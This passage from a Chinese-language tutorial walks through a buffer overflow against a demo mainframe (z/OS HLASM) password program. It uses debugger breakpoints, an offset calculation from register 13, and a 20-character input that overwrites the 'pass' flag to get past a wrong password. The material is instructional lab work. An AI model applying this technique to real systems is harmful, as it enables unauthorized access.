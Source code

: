 ### <a class="reference-link" name="%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA"></a>缓冲区溢出

现在，让我们看看如何在没有输入正确的密码的情况下，如何攻破这个大型机。显然，这里将利用缓冲区利用漏洞，不过在此之前，先让我们看看它在HLASM中是如何工作的。

为此，我们可以在main函数的每条指令上设置一个断点。这样的话，输入go指令，就能实现单步跳过（step over）功能。

```
at +0:+112
```

注意下面的指令，无论密码是错是对，它都会被运行。MVHI是“MoVe fullword from Halfword Immediate”的意思，并将pass的值设置为0，随后如果程序将该内存加载到寄存器中，运行“LTR”来加载并测试寄存器，将第二个寄存器的值放入第一个寄存器，并检查其内容是否为0。

```
+32    MVHI    176(R13),0
...
+D2    L       R0,176(,R13)
+D6    LTR     R0,R0
```

如果密码正确，就将该变量的值设置为1。

```
+CC    MVHI   176(R13),1
```

然后，让我们转到D2，来看看寄存器13的值是多少。

```
at +D2 
go
list 13r
 13R  1FAA1248
```

现在，让我们让1FAA1248与176相加，得到1FAA12F8，并查看这个地址所在的二进制到代码。正如我们所看到的，当密码输入正确时，该值被设置为1。

```
list 1FAA12F8. B m(4)
 1FAA12F8.  00000000    
 1FAA12F9.  00000000
 1FAA12FA.  00000000
 1FAA12FB.  00000001
```

从上一节我们知道，我们获取的数据存储在1FAA12E8处。由于每个字符占1个字节，所以要覆盖这个数据，我们需要由1FAA12FB – 1FAA12E8 = 20个字符组成的密码。

```
call 'JAKE.TSOTEST.LOADE(OVERFLOW)'

  Enter the password : 
aaaaaaaaaaaaaaaaaaaa

  Wrong Password 
 H4CK3D TH3 M41NFR4M3
```

注意事项1：在整个过程中，绝对地址可能已经改变了。
